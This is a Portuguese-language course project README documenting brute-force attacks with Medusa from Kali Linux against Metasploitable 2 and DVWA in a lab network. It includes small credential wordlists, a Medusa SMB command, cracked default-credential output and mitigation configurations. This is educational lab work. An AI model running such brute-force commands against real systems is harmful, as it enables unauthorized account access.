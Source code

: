 # 🔐 Projeto DIO: Ataques de Força Bruta com Kali Linux e Medusa

## 📖 Descrição do Projeto
Implementação prática de cenários de ataques de força bruta utilizando **Kali Linux** e **Medusa** contra ambientes vulneráveis (**Metasploitable 2** e **DVWA**), com documentação completa dos procedimentos e medidas de mitigação.

> ⚠️ **AVISO LEGAL**: Este projeto foi realizado em ambiente controlado para fins educacionais. Todas as técnicas devem ser usadas apenas em sistemas onde você tem autorização explícita.

## 🎯 Objetivos do Desafio

- [x] Configurar ambiente de laboratório com VMs
- [x] Executar ataques de força bruta em múltiplos serviços
- [x] Documentar procedimentos e resultados
- [x] Propor medidas de mitigação
- [x] Compartilhar conhecimento adquirido

## 🛠️ Tecnologias Utilizadas

- **Kali Linux** - Sistema de penetração
- **Medusa** - Ferramenta de força bruta
- **Metasploitable 2** - Ambiente vulnerável
- **DVWA** - Aplicação web vulnerável
- **VirtualBox** - Virtualização
- **Bash Scripting** - Automação

## 🏗️ Configuração do Ambiente

### Topologia da Rede:

    Kali Linux (Atacante)
    ↓
    VirtualBox Host-Only Network
    ↓  
    Metasploitable 2 (Alvo)
        ├── FTP (porta 21)
        ├── SSH (porta 22) 
        ├── HTTP/DVWA (porta 80)
        └── SMB (porta 445)


# ⚔️ Ataques Realizados
## 1. 🗂️ Ataque FTP (Porta 21)

| **Ataque:** | **Logs do ataque simples:**
| --- | --- |
| ![Medusa Ataque FTP](screenshots/medusaFtp.png) | ![Medusa FTP](screenshots/logsFtpSimples.png) |

| **Validação de Acesso:** |
| --- | 
| ![valifacaoAcesso](screenshots/ftpSucesso.png) |


Wordlists:

    # ftp_users.txt
    msfadmin
    admin
    root
    anonymous
    test
    user

    # ftp_passwords.txt  
    msfadmin
    password
    123456
    admin
    12345

Resultado:

    ✅ ACCOUNT FOUND: [ftp] Host: 192.168.122.128 User: msfadmin Password: msfadmin [SUCCESS]

## 2. 🌐 Ataque HTTP/DVWA (Porta 80)

| **Comando em Execução:** | **Logs do ataque:** |
| --- | --- |
| ![Medusa DVWA](screenshots/medusaDvwa.png) | ![DVWA Logs](screenshots/dvwaLogs.png) |


## 3. 💻 Ataque SMB (Porta 445)

| **Ataque em Andamento:** | **Descoberta de Compartilhamentos:**
| --- | --- |
| ![Medusa SMB](screenshots/medusaSmb.png) | ![SMB Shares](screenshots/validaçaoSmb.png) |

| **Acesso Confirmado:** |
| --- |
| ![SMB Access](screenshots/validaçao2Smb.png) |


Comando:

    medusa -h 192.168.122.128 -U wordlists/smb_users.txt -P wordlists/smb_passwords.txt -M smbnt -t 2 -f -O logs/smb_attack.log


Resultado:

    ✅ ACCOUNT FOUND: [smbnt] Host: 192.168.122.128 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]


## 📊 Resultados Obtidos

Estatísticas

    - Total de credenciais comprometidas: 3

    - Serviços vulneráveis: 3

    - Taxa de sucesso: 100% nos serviços testados


# 🛡️ Medidas de Mitigação
Para Administradores de Sistema

## 🔒 FTP

    # Instalar e configurar fail2ban
    sudo apt install fail2ban

    # /etc/fail2ban/jail.local
    [vsftpd]
    enabled = true
    maxretry = 3
    bantime = 600


## 🔒 SSH

    # /etc/ssh/sshd_config
    PasswordAuthentication no
    PubkeyAuthentication yes
    PermitRootLogin no
    MaxAuthTries 3

## 🔒 Políticas de Senha

- Implementar senhas complexas (mínimo 12 caracteres)
- Exigir alteração periódica
- Bloquear contas após 5 tentativas falhas


## 🔒 DVWA/Formulários de Login

    <?php
    // Implementar CAPTCHA
    // Limitar tentativas por IP
    // Atraso progressivo entre tentativas
    session_start();

    if (!isset($_SESSION['login_attempts'])) {
        $_SESSION['login_attempts'] = 0;
    }

    if ($_SESSION['login_attempts'] >= 3) {
        sleep(pow(2, $_SESSION['login_attempts'] - 3));
    }
    ?>


## 📁 Estrutura do Projeto

    projetoForçaBruta/
    ├── 📄 README.md
    ├── 📁 wordlists/
    │   ├── ftp_users.txt
    │   ├── ftp_passwords.txt
    │   ├── dvwa_users.txt
    │   ├── dvwa_passwords.txt
    │   ├── smb_users.txt
    │   └── smb_passwords.txt
    ├── 📁 logs/
    │   ├── ftp_attack.log
    │   ├── dvwa_attack.log
    │   └── smb_attack.log
    └── 📁 screenshots/
        ├── ftp_success.png
        ├── dvwa_access.png
        └── smb_admin_access.png


## 📄 Licença

Este projeto está sob a licença MIT. Veja o arquivo LICENSE para detalhes.
